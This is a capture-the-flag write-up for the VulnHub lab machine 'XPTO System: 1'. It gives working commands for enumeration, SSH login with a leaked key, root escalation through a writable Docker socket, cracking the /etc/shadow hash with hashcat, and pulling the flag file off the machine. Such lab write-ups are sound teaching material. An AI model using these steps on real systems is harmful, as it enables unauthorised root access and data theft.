

# XPTO System 1

Difficulty:: #Easy
> Classified according to [Vulhub difficulty page](https://www.vulnhub.com/difficulty/)

## Target data
- Link: [XPTO System: 1](https://www.vulnhub.com/entry/xpto-system-1,635/)
- CVSS3 : [AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H/RL:O/RC:C/CR:H/IR:H/AR:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H/RL:O/RC:C/CR:H/IR:H/AR:H)
  > **Warning**: I select the CVSS3 score to start to practice, so is very possible that I made a mistake in the selection, so do not trust of that CVSS3.

## Machine Description

*Your goal in this challenge, is to access the target host and perform the exfiltration of a PDF file containing the flag. For security reasons, the file extension has been removed. To avoid raising suspicion, this secret file is located in a hidden directory that can be found in the root user password. Find the root password, access the directory and exfiltrate the file containing the flag.*

## Summary
XPTO System: 1 starts with a comment clue in the HTML source code saying that the `/README.md` endpoint exists, and it leaks sensitive data because it stores plain text credentials and a custom endpoint where I find the content of a private SSH key, I add the private key header and footer and discover that it reuses the credentials founds in the `README.md` file. Once on the server with the `web` user, I identify a `rememberme.txt` file that leaks another credential, which I could perform a lateral movement to the `sys_dev` but it does not have any useful. I return to the `web` user and identify that it belongs to the `docker` group, after google it I find the `CVE-2014-3499`  [Writable Docker Socket in Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-docker-socket) and with that, I became `root`. But the challenges ask to find the the flag PDF file, then I find any file with the magical signature of a PDF file, and I also crack the root password to identify that it was a portion of the directory name where the PDF was stored.

1. CWE-0615: Inclusion of sensitive information in source code comments
2. CWE-0219: Storage of file with sensitive data under web root
3. CWE-359: Exposure of Private Personal Information to an Unauthorized Actor
4. CWE-256: Plaintext Storage of a Password
5. CWE-269: Improper Privilege Management
6. CWE-0916: Use of Password Hash With Insufficient Computational Effort

#VirtualBox #Nmap #CyberChef #HashID #HashCat #Docker

## Enumeration

When I run the target machine in VirtualBox (see the [setup vulnhub machines](../setup-vulnhub.md), then I identify in the target prompt the IP `192.168.2.9`:


And I start to scan the target with Nmap:
```shell
$ nmap -sV -oA scans/nmap-tcp-scan 192.168.2.9
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-04 16:27 EST
Nmap scan report for 192.168.2.9
Host is up (0.32s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.61 seconds

```
And I identify only the port 80 open, and it runs the service Apache httpd 2.4.38. When I scan the full 65535 TCP ports with Nmap:

```shell
$ nmap -p- -sV -oA scans/nmap-full-tcp-scan 192.168.2.9
Connect Scan Timing: About 98.29% done; ETC: 18:04 (0:01:37 remaining)
Nmap scan report for 192.168.2.9
Host is up (0.018s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5765.54 seconds
```
And it takes near to 2 hours to complete, but the wait was worth it, and I found a second port open, the `1337`, and it has the service `OpenSSH` with version `7.9p1`, and is running on `Debian 10+deb10u2 (protocol 2.0)`.

### Normal use case
The target is a web server under construction with an SSH service.

Given I found port 80, then I use the Nmap general scripts:
```shell
$ nmap -p 80,1337 -sCV -oA scans/nmap-tcp-script-scan 192.168.2.9
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-04 18:11 EST
Nmap scan report for webserver (192.168.2.9)
Host is up (0.014s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-git:
|   192.168.2.9:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-title: XPTO System
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|_  2048 a1:c7:5d:66:71:3e:ed:5f:4b:b1:07:f3:be:0f:08:6f (RSA)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.75 seconds
```
And I can see a git repository. When I use the `http-enum` script of `Nmap`:
```shell
$ nmap -p 80 -sV --script=http-enum -oA scans/nmap_http_scan 192.168.2.9
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-04 16:36 EST
Nmap scan report for 192.168.2.9
Host is up (0.011s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-enum:
|   /login.php: Possible admin folder
|   /robots.txt: Robots file
|_  /.git/HEAD: Git folder
|_http-server-header: Apache/2.4.38 (Debian)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.70 seconds
```
Then I identified the `/login.php` endpoint, and the `robots.txt` file
When I visit the website:


Then I check the `/robots.txt` file, but it does not have any useful:


When I check the `/login.php` endpoint:


Then I found that it has a `/logout.php` link on the login page.
When I check `/logout.php`:


Then it only shows me an error message.

### Dynamic detection
Clues are hidden in the source code login page and sensitive information is leaked in endpoints founds.

When I look at the source code of the home page, then I can see that the vulnerability is hinted at by a comment in line 88:


When I read that comment, then I can conclude that the website has a README file, and I use `curl` to get the `README.md` file, and it works:
```shell
$ curl 192.168.2.9/README.md
# TODO
- Consertar a pagina de logout
- Criar a pagina de dashboard pos login

#Comandos uteis

##Start container
$ docker run --name webserver -d -p 80:80 -v ~/http:/var/www/html php:apache

##Stop container
$ docker stop webserver

##Start container
$ docker start webserver

##Image list
$ docker images

##Credential
web:pipocadoce

### View Access
/delete-me
```
I can see the `web:pipocadoce` credentials, another endpoint, and Docker commands that were probably used to mount the website.
When I tried to login into the website with that credentials, then It redirects me to `/src/success.html` endpoint:


But there is nothing useful, then I check the `/delete-me` endpoint also found in the `README` file, and I found data in base64, and a message suggesting is to access the server:


When I use CyberChef to decode it:



Then I can see that the readable text says OpenSSH-Key, and I can guess that is a private key, but I want to confirm it, when I create test keys with `ssh-keygen` then I can conclude that is a private key, and I save it to a new file called `id_rsa` using `Nvim`, and I add the header and footer that this kind of key has, and I use the `chmod` command to change the permissions:
```shell
$ chmod 400 id_rsa
```

### Exploitation
Given I got a private key to `OpenSSH`, and there is an open `OpenSSH` port in `1337` TCP, then I can start to guess the username to try to connect with `ssh`
And after a few attempts, I identify that it reuses the `web:pipocadoce`:
```shell
$ ssh -i id_rsa web@192.168.2.9 -p 1337
```
When it asks me for a passphrase:
```shell
Enter passphrase for key 'id_rsa':
```
And I use `pipocadoce`
Then I get the shell of the web user:
```
web@xptosystem:~$
```
Then I start enumerating the server, and find a `remember.txt` file inside the home web directory:
```
web@xptosystem:~$ cat remember.txt
Task List:
- Request xptosys software test
- Schedule a meeting with the devsecops teams
- Change sysdev password: PassSecret#789%
- Request sysdev permissions release
- Schedule Status Report Meeting
```
And I could find the `sysdev:PassSecret#789%` credentials, And I change to the `sysdev` user with the `su` command:
```
web@xptosystem:~$ su sysdev
```
And it works, but I could not find any useful, and I return to the web user. When I use the id command:
```shell
web@xptosystem:~$ id
uid=1001(web) gid=1001(web) groups=1001(web),112(docker)
```

Then I identified that the web user belongs to the docker group. and I google `privilege escalation with docker` and I found in [Writable Docker Socket in Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-docker-socket) that if I can write in the docker socket, then I can escalate privileges `CVE-2014-3499`:


When I check with the docker group in what files I can write using find:
```shell
web@xptosystem:~$ find / -writable -group docker -ls 2>/dev/null
15081 0 srw-rw----  1 root  docker   0 Jan  4 18:38 /run/docker.sock
```
Then I confirm that I can write to the docker socket, when I identify the host with the `ps` command:
```shell
web@xptosystem:~$ ps aux | grep docker
...
root  778  0.0  0.2 474160  1180 ?  Sl   03:53   0:00
/usr/sbin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 80
-container-ip 172.17.0.2 -container-port 80
...
```
Then I identify that the host is localhost `0.0.0.0`, when I execute the command found in Hacktricks:
```shell
web@xptosystem:~/http$ docker -H unix:///var/run/docker.sock
run -v /:/0.0.0.0 -it ubuntu chroot /0.0.0.0 /bin/bash

Unable to find image 'ubuntu:latest' locally
latest: Pulling from library/ubuntu
6e3729cf69e0: Pull complete
...
Status: Downloaded newer image for ubuntu:latest
root@fd7e6fd9b938:/# id
uid=0(root) gid=0(root) groups=0(root)
```
Then I become root, and I can conclude that the root user is vulnerable, and because the web user belongs to the docker group and the writable permissions on the docker socket.

### Extraction
The challenge descriptions ask to find a hidden pdf file that does not have extension and it says that the root password contains a clue.

Given I am already the root user, then I start to find the PDF flag. and with the challenge description, I start to look for the root password, and I can access `/etc/shadow` and read the root password hash:

![evidence][./static/10-etc-shadown.png]

When I save the root password hash in the `root.hash`file, and I use `hashid` to identify the hash type:
```shell
$ hashid root.hash
--File 'root.hash'--
...
[+] SHA-512 Crypt
--End of file 'root.hash'--⏎
```
Then I know that is `SHA-512` Crypt, and I use `hashcat` with the `Rockyou` list to try to crack it:
```shell
$ hashcat -a 0 -m 1800 root.hash rockyou.txt --force
```
But it was so slow, and I try a different approach. When I use the `find` command with the `--exec` switch, and I apply the `file` and the `grep`  command to filter all files that have the magic bytes of a PDF file:
```shell
root@fd7e6fd9b938:~# find / -exec file {} \; | grep PDF\ document
/usr/share/doc/file/yetcfm@357/d4t4_exf1lter: PDF document, version 1.7
```
Then I identify the path of the flag `/usr/share/doc/file/yetcfm@357/d4t4_exf1lter`, and after nearly 2 hours `hashcat` could crack it:
```shell
...
yetcfm@357
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
...
Started: Wed Jan  4 19:44:19 2023
Stopped: Wed Jan  4 21:52:37 2023
```
And the root password is `yetcfm` an that is thefirst part of the directory name of the PDF file `yetcfm@357`
And I copy the `d4t4_exf1lter` file to the /tmp directory:
```shell
root@052236eb2496:/# cp /usr/share/doc/file/yetcfm@357/d4t4_exf1lter /tmp
```
And I allow that other users can read the file:
```shell
root@052236eb2496:/tmp# chmod +r d4t4_exf1lter
```
And with the web user, I start an HTTP server with `Python`:
```shell
web@xptosystem:/tmp$ python3 -m http.server 8001 &
```
And in my attack machine, download the file with the `wget` command:
```shell
$ wget 192.168.2.9:8001/d4t4_exf1lter
```
When I change the name to add the pdf extension:
```shell
$ mv d4t4_exf1lter d4t4_exf1lter.pdf
```
Then I open the file and get the flag:


Then I can conclude that the root password was weak, and the pdf file has the flag.